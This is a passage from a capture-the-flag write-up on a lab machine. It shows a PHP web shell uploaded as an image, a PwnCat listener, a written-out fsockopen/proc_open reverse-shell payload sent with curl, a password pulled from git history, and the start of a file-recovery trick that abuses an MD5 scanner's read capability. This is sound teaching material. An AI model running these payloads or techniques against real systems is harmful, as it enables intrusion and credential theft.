 We successfully uploaded an image containing a PHP web shell to [/storage/nS3icw.php](http://10.10.11.220/storage/nS3icw.php). A reverse shell session was established by starting a [PwnCat](https://pypi.org/project/pwncat-cs/) listener and sending a PHP reverse shell command to the uploaded web shell.

```zsh
# Start PwnCat listener on port 8443
pwncat-cs -l $lhost 8443

# (In another tab) Send PHP reverse shell code
code='$s=fsockopen("'$lhost'",8443);proc_open("sh",array($s,$s,$s),$pipes);'
curl "http://$rhost/storage/nS3icw.php" --data-urlencode "7=$code"
```
{:file="bryan@redteam ➤ zsh" .nolineno}

> Your web shell may be deleted before you execute anything. If this is the case, try uploading it again.
{:.prompt-warning}

## Privilege Escalation

We compressed and downloaded the entire `/var/www/html/intentions`{:.filepath} directory for further analysis. After noticing a populated `.git`{:.filepath} directory, we displayed the logs and inspected the different commits. One of the commits happened to note a password associated with the user _greg_, which happens to match the local account.

```bash
# Investigate git repository
cd intentions
git log --all # Display commit logs
git show # Nothing interesting from the latest commit
git show f7c903 # Found a password with email "greg@intentions.htb"
```
{:file="bryan@redteam ➤ zsh" .nolineno}

We proceeded to login with these credentials via SSH.

### Scanner

In `/home/greg`{:.filepath}, we noticed a shell script that executes `/opt/scanner/scanner`{:.filepath} with some arguments. We discovered that `/opt/scanner/scanner`{:.filepath} is granted special capabilities after noticing that it could read files in `/home/legal/uploads`{:.filepath} while other standard executables under our current context could not.

```bash
# Investigate scanner executable
getcap /opt/scanner/scanner # Granted cap_dac_read_search=ep -> privileged file reading
/opt/scanner/scanner --help # Check help menu
```
{:file="greg@intentions ➤ bash" .nolineno}

Judging by the help menu, the purpose of this program is to evaluate and compare files using MD5 digests. We also spotted a potentially dangerous feature specified in the help menu that could allow us to recover protected files from MD5 checksum values. The `-l` flag seemingly allows us to specify how many bytes we want to hash from the given file. If we were to collect the MD5 checksum at each position in a file, it would be trivial to crack each value and recover the file contents. We created a simple Python script to handle this task.
